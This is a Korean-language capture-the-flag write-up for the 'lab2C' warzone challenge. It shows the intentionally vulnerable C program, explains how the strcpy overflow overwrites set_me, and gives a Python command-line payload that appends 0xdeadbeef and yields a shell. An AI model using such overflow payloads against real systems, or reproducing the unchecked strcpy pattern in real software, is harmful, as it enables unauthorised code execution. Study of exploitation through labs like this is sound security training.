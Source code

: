 ## 1. 문제 확인
- ID : lab2C
- Target : /level/lab02/lab2C
- flag : /home/lab2B/.pass
```
	lab2C@warzone:/levels/lab02$ ./lab2C
	usage:
	./lab2C string
	lab2C@warzone:/levels/lab02$ ./lab2C g4nzzi
	Not authenticated.
	set_me was 0
	lab2C@warzone:/levels/lab02$
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
```c
	#include <stdlib.h>
	#include <stdio.h>
	#include <string.h>

	/*
 	* compiled with:
 	* gcc -O0 -fno-stack-protector lab2C.c -o lab2C
 	*/

	void shell()
	{
    	    printf("You did it.\n");
            system("/bin/sh");
	}

	int main(int argc, char** argv)
	{
            if(argc != 2)
            {
                printf("usage:\n%s string\n", argv[0]);
                return EXIT_FAILURE;
            }

            int set_me = 0;
            char buf[15];
            strcpy(buf, argv[1]);

            if(set_me == 0xdeadbeef)
            {
                shell();
            }
            else
            {
                printf("Not authenticated.\nset_me was %d\n", set_me);
            }

            return EXIT_SUCCESS;
	}
```
### 2.2 Code 분석
- strcpy()함수로 실행 인자(argv[1])값을 buf에 복사할 때 overflow 취약점 존재
```c
	strcpy(buf, argv[1]);
```
- set_me 값이 0xdeadbeef와 같으면 shell() 함수를 호출함
```c
	if(set_me == 0xdeadbeef)
	{
	    shell();
        }
```

<br/><br/>
## 3. Exploit
- main()함수의 stack은 buf(15byte) + set_me(4byte) 형태임
```
	[XXXXXXXXXXXXXXX][ZZZZ][SFP][RET]
 	       buf       set_me
  	    (15byte)     (4byte)
```
- 실행 인자(argv[1])값으로 임의값(15byte) + 0xdeadbeef(4byte)을 입력하면 쉘 획득
```
	lab2C@warzone:/levels/lab02$ ./lab2C $(python -c 'print "a"*15 + "\xef\xbe\xad\xde"')
	You did it.
	$
```
